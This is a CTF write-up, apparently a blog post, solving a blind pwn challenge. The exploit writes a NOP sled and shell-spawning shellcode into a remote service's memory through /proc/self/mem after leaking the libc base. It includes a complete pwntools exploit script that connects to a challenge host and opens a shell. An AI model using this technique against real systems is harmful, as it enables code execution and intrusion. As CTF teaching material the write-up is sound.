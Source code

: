 # Blind

> Looking at the title introduction, it should be something about BROP. Also found that there is no attachment.  
> I have never done a BROP problem before, so let's give it a try.  
> [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

First, let's see what the program will do.

![image-20220217140202100](https://cdn.ova.moe/img/image-20220217140202100.png)

You can see that the program first provides the address of `write`, but since we don't know the libc version, although we can find the libc version based on the lower 12 bits, we choose `LibcSearcher` for a quicker solution.

In this way, it is easy to find `libc_base`.

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

Next, it allows us to open a file.

![image-20220217140449422](https://cdn.ova.moe/img/image-20220217140449422.png)

Introduction to some related contents of `/proc/`.

## /proc/

The Linux kernel provides a mechanism to access kernel data and change kernel settings during program execution through the /proc filesystem. /proc is a pseudo-file structure, which means it exists only in memory and not on external storage. Some important directories in /proc are sys, net, and scsi. The sys directory is writable and can be used to access and modify kernel parameters.

/proc also contains process directories named after PID (process ID), which can be used to read information about the corresponding processes. There is also a /self directory, used to record information specific to the current process.

### /proc/self/

This is like a symlink, where different PIDs accessing this directory essentially enter different /proc/$(PID)/ directories.

#### /proc/self/maps

This file is used to record the memory mapping of the current process, similar to the `vmmap` command in GDB. By reading this file, you can obtain the base address of the memory code segment.

#### /proc/self/mem

This file records information about the process memory. Modifying this file is equivalent to directly modifying the process memory. This file is readable and writable, but reading it directly will result in an error.

You need to modify `offset`'s `val` based on the mapping information in `/proc/self/maps`.

If we write some code to the `.text` section, the code at that address will become `disasm(val)`.

Therefore, it naturally comes to mind to write shellcode there. However, since we do not have the source file, we cannot be sure where the program has executed and thus cannot control the program to jump to the exact location where the `shellcode` starts.

## Shellcode Spray

At this point, if we change the address context to all `nop` and add a segment of `shellcode` at the end, whenever the program reaches any position where `nop` is located, the `shellcode` will execute normally.

Thus, we may as well change a large section starting from `__libc_start_main` to `nop`, ensuring that the program is definitely covered by `nop`.

Exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```

<!-- AI -->
